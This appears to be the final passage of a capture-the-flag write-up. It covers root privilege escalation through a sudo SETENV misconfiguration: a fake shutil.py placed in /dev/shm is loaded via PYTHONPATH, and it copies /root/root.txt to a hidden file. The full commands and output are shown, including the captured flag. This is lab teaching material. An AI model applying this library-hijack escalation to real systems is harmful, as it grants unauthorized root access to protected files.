 In `backup_web` function the script is calling a python script `/opt/scripts/backup.py`:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

## Root

Due to the `SETENV` misconfiguration in `sudo`, we can hijack `shutil` Python's library and create a malicious function called `make_archive`:

```bash
$ printf "def make_archive(a, b, c):\n\twith open('/root/root.txt', 'r') as rootPass:\n\t\twith open('/dev/shm/.solve', 'w') as solution:\n\t\t\tsolution.write(rootPass.read())\n" > /dev/shm/shutil.py

$ cat /dev/shm/shutil.py
def make_archive(a, b, c):
        with open('/root/root.txt', 'r') as rootPass:
                with open('/dev/shm/.solve', 'w') as solution:
                        solution.write(rootPass.read())

$ sudo PYTHONPATH=/dev/shm/ /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...

$ cat /dev/shm/.solve
c7b1d296e8986080b28e0e73bb14c232
```
___

## Useful links

- [Serious Vulnerability Discovered in Adminer database Administration Tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)
- [SQL.sh](https://sql.sh/)